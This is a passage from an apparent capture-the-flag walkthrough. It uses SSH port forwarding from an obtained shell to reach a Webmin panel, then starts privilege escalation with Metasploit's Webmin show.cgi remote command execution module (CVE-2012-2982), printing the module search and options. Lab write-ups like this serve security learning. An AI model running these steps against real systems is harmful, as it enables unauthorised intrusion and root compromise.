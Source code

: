 From the obtained shell run

    ss -tulpn

You'll see the number of TCP Sockets open. So we can do a Reverse SSH Port Forwarding.

On your local machine run

    ssh -L 10000:localhost:10000 agent47@<ip>

You'll be asked again for the password.

Open a browser and point to localhost:10000

You'll get to the login page of the CMS.

From here log in with the discovered credential and answer the two remaining flags.

## Privilege Escalation with Metasploit

With searchsploit or by looking at the exploitDB website, you can find out this version of Webmin is weak to RCE.

> msfconsole

Run

> msf6 > search cve:2012-2982

You'll get the following

    Matching Modules
    ================
    
       #  Name                                      Disclosure Date  Rank       Check  Description
       -  ----                                      ---------------  ----       -----  -----------
       0  exploit/unix/webapp/webmin_show_cgi_exec  2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
    
    > msf6 > use exploit/unix/webapp/webmin_show_cgi_exec
    msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show options
    
    Module options (exploit/unix/webapp/webmin_show_cgi_exec):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       PASSWORD                   yes       Webmin Password
       Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                            html
       RPORT     10000            yes       The target port (TCP)
       SSL       true             yes       Use SSL
       USERNAME                   yes       Webmin Username
       VHOST                      no        HTTP server virtual host
    